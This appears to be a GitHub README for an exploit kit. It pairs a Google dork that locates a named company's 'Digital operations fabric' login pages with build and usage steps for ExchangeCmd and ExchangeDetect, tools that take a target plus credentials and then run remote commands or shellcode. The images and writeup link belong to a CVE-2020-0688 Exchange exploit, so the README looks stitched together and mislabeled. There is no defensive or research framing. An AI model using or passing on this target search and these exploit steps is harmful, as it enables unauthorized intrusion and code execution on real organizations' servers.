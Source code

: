 README.md

*Target search 
GHDB : allintitle: "Digital operations fabric"
	inurl: cognizant.com/#/login

*Weak Encryption/Decryption
*/Weak_Encryption_Decryption

*Auth_Bypass/Prive_Esc
*/..working


## Exploit Cognizant

### build

	csc ExchangeCmd.cs
	csc ExchangeDetect.cs

### usage
	ExchangeDetect <target> <user> <pass>

 ![](https://raw.githubusercontent.com/zcgonvh/CVE-2020-0688/master/detect.png)
 
	ExchangeCmd <target> <user> <pass>
	sub commands:
		exec <cmd> [args]
		  exec command
			
		arch
		  get remote process architecture(for shellcode)
			
		shellcode <shellcode.bin>
		  run shellcode
			
		exit
		  exit program
![](https://raw.githubusercontent.com/zcgonvh/CVE-2020-0688/master/exp.png)

for more information, read [writeup.pdf](https://raw.githubusercontent.com/zcgonvh/CVE-2020-0688/master/writeup.pdf)(in chinese).
